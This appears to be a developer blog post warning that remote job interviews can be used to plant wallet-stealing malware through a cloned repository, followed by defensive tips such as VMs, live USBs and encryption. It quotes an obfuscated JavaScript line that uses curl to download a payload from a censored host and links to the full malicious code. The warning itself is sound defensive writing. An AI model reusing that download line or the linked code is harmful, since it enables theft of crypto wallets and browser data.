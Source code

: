 ```yaml
---
aliases:
- /en/you-could-lose-all-your-crypto-in-a-job-interview/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:22-06:00'
description: This is the story about a guy who was about to lose all his crypto and
  probably get hacked in a job interview for a remote position
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: You Could Lose All Your Crypto In a Job Interview
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

{{<ad0>}}

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="en" >}}) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address]({{< ref path="/posts/software-architecture/caracteristicas-basicas-de-una-api-rest/index.md" lang="en" >}}), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything though.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad1>}}

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

{{<ad2>}}

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can rapidly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container]({{< ref path="/posts/docker/docker-curso-practico-con-ejemplos-en-gnu-linux/index.md" lang="en" >}}), if you don't mind not having a graphical interface. 

Another option available, and my personal favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount the hard drive that contains sensitive information in the VM, you're toast.

{{<ad3>}}

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes,it will be just a garbage of non-sense zeroes and ones. 

I don't plan to offer details because there is already too much information on the internet about GPG and its alternatives, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't want to become a Linux or math nerd, there are tools like Kleopatra, which could make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from black hat interviews? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X. Edited: the owner of the account changed his privacy settings so now you can't watch the full conversation.